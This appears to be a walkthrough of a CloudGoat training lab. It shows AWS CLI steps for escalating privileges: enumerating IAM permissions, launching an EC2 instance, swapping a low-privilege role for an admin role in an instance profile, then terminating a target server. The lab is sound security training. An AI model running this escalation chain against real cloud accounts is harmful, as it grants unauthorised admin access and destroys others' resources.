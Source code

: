 # Scenario 3 - IAM Privilege Escalation By Attachment

## What is the scenario

The scenario begins with IAM User "Kerrigan" security credentials.

The objective is to delete the EC2 instance "cg-super-critical-security-server".

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_attachment/README.md

## Setting up the scenario

        python3 cloudgoat.py create iam_privesc_by_attachment

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario3-6.png)

### Step by step instructions

In this scenario, we have a set of AWS IAM Security Credentials to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the available security credentials.

![enumerate-permissions](imgs/scenario3-2.png)

We can notice that the security credentials are permitted to do some specific operations and it is worth investigating further.

Let's first verify if "cg-super-critical-security-server", target EC2 machine that we are supposed to delete is available. An AWS convention is to put the name of the EC2 instance in a tag with the tag key as "Name" so we are retrieving EC2 tags.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[Tags]' \
        --profile kerrigan

![ec2-tags](imgs/scenario3-7.png)

We have sucessfully verified that the target server is available in the AWS account. Let's go ahead and continue our enumeration.

As IAM User "Kerrigan", we are allowed to retrieve information related to EC2 "Instance Profiles". An Instance Profile is a container for a single IAM Role. An EC2 Instance cannot be assigned an IAM Role directly, but it can be assigned an Instance Profile which contains a Role. Let's enumerate the Instance Profiles available. In this below command, we are using `--query` to query only Instance Roles that start with `cg-` because Cloudgoat as a convention names all the resources starting with `cg`

        aws iam list-instance-profiles \
        --query "InstanceProfiles[?starts_with(InstanceProfileName, 'cg')]" \
        --profile kerrigan

![instance-profiles](imgs/scenario3-3.png)

The AWS account has one Instance Profile, `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` which is a container around the IAM Role `cg-ec2-meek-role-<CLOUD_GOAT_ID>`.

As IAM User "Kerrigan", we are also allowed to retrieve information related to IAM Roles. Let's enumerate the IAM roles available.

        aws iam list-roles \
        --query "Roles[?starts_with(RoleName, 'cg')]" \
        --profile kerrigan

![iam-roles](imgs/scenario3-4.png)

![instance-profiles](imgs/scenario3-5.png)

There are two IAM roles in the AWS account - `cg-ec2-meek-role-<CLOUD_GOAT_ID>` and `cg-ec2-mighty-role-<CLOUD_GOAT_ID>`. The keywords "meek" and "mighty" suggest that one role (mighty) may have more permissions than other role (meek). All the operations performed to enumerate the permissions of  these roles have failed with an "Access Denied" error.

One possible way to figure out the permissions of these roles is to attach them to an EC2 instance and using the EC2 to enumerate the role permissions. Remember that IAM Roles can't be attached to EC2 directly, they have to be wrapped in an Instance Profile. This method requires us to be able to create/modify Instance Profiles, create an EC2 instance with Instance Profile in the AWS account.

Let's try and create an EC2 instance. To create an EC2 instance that we can use to enumerate the IAM role permissions, we need the following - 

1. A subnet to start EC2 Instance in
2. A security group that allows SSH access to the EC2 instance
3. An SSH key pair that we can use to SSH into the EC2 instance

We can use the same subnet as the target EC2 machine that we are supposed to delete.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SubnetId]' \
        --output text --profile kerrigan

![subnetId](imgs/scenario3-8.png)

We can enumerate the security groups and use the security group that allows SSH access to the EC2 instance.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SecurityGroups]' \
        --output text --profile kerrigan

        aws ec2 describe-security-groups --profile kerrigan

![security-groups](imgs/scenario3-9.png)

Let's try and create a new SSH Key Pair because we can't use any existing key pairs in the AWS account. We need this new key pair in order to SSH into the EC2 machine that we might create.

        aws ec2 create-key-pair \
        --key-name new-ec2  \
        --query 'KeyMaterial' \
        --output text > new-ec2.pem \
        --region us-east-1 \
        --profile kerrigan

We have all the information needed to create a new EC2 instance. Now let's try and create an EC2 instance with following criteria -

1. Same subnet as target EC2 instance
2. Security group that allows SSH access
3. Newly generate SSH key pair for SSH authentication
4. Attach the `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` Instance Profile
5. Use an Ubuntu 18.04 AMI

Let's go ahead and try to create a new EC2 instance. 

        aws ec2 run-instances \
        --image-id ami-0a313d6098716f372 \
        --instance-type t2.micro \
        --iam-instance-profile \
        Arn=<INSTANCE-PROFILE-ARN> \
        --key-name new-ec2 \
        --subnet-id <SUBNET_ID> \
        --security-group-ids <SECURITY_GROUP_ID> \
        --region us-east-1 \
        --profile kerrigan

We are able to successfully create a new EC2 instance. Save the details of the new EC2 instance for later usage. 

The Instance Role `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` is still a wrapper around potentially low privileged IAM Role i.e. `cg-ec2-meek-role-<CLOUD_GOAT_ID>`. Let's remove it and add `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role to the Instance Profile.


        aws iam remove-role-from-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-meek-role-<CLOUD_GOAT_ID> --profile kerrigan

        aws iam add-role-to-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-mighty-role-<CLOUD_GOAT_ID> --profile kerrigan

Let's SSH into the newly created EC2 instance - 


1. Change permissions for the SSH private key `chmod 400 new-ec2.pem`
2. Retrieve the public IP of the newly created EC2 instance

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].PublicIpAddress" \
        --output text \
        --profile kerrigan

3. SSH into the machine using the public IP address `ssh -i new-ec2.pem ubuntu@<PUBLIC-IP-ADDRESS>`

Once you have successully SSHed into the EC2 instance, let's enumerate the IAM role `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` and policy attached to it 


1. Install AWS CLI on the EC2 instance

```
sudo apt-get update

sudo apt-get install awscli
```

2. Enumerate the policy and policy permissions


        aws iam list-policies --query "Policies[?starts_with(PolicyName, 'cg')]"


        aws iam get-policy-version \
        --policy-arn "arn:aws:iam::ACCOUNT-ID:policy/cg-ec2-mighty-policy"  \
        --version-id "v1"

![policy](imgs/scenario3-11.png)

![policy-permissions](imgs/scenario3-10.png)

Notice that the `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role basically gave the EC2 instance Administrator access to the AWS account.

3. Terminate the target EC2 instance 


        aws ec2 describe-instances --region us-east-1
        aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1

![terminating-target-ec2](imgs/scenario3-12.png)

## Destroy the scenario


> <p><span style="color:red"><em>Note: In this scenario you created some AWS resources manually (EC2 Instance, Key pair etc). CloudGoat can only manage resources it creates, you should remove the resources you created manually before running cloudgoat destroy.</em></span>.</p>

        python3 cloudgoat.py destroy iam_privesc_by_attachment

## References

- [Using Instance Profiles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_switch-role-ec2_instance-profiles.html)



